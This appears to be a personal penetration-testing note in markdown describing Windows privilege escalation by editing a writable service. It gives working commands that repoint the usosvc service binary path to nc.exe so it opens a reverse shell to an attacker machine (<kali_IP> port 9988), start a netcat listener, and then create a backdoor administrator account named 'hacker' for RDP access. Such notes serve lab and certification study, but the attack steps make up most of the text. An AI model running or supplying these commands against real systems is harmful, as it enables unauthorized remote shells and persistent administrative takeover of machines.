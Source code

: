 ```yaml
---
title: General Notes
updated: 2023-08-02 17:29:28Z
created: 2023-08-02 17:29:14Z
---
```


# Editable Service

If you find a service that is editable (WinPEAS can help here to find such services) you can edit the binpath to point to nc.exe to get a reverse shell. 

Steps also described here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc

Note: in both my experiences using this, this does get shell, but it closes in a few seconds.

  1. Upload `nc.exe` to a writable directory.
  2. `sc config usosvc binpath= "C:\Inetpub\wwwroot\nc.exe -nv <kali_IP> 9988 -e C:\Windows\System32\cmd.exe"`
  3. `sc config usosvc  obj= ".\LocalSystem" password= ""`
     - I didn't need this second time using it
  5. `sc config usosvc start= "demand"`
  6. `nc -lvp 9988` (setup listener on kali)
  7. `net start usosvc`
  8. R00T!
	
Since shell closes soon, add new admin user:
1. `net user hacker h@ck3r%93 /add`
2. `net localgroup administrators hacker /add`

Now RDP/ssh with new creds (if services are available, or you can open them yourself):
1. `rdesktop <target>`
2. R00T!

The shell closes due to a Windows timeout variable in the registry that defines how long to wait for a service to response. If you're in a position to edit that (i.e. ssh/rdp not enabled) this would stabilize the shell.
If you don’t want to edit the registry, since you're admin for a bit with this shell, you could try enabling RDP or SSH.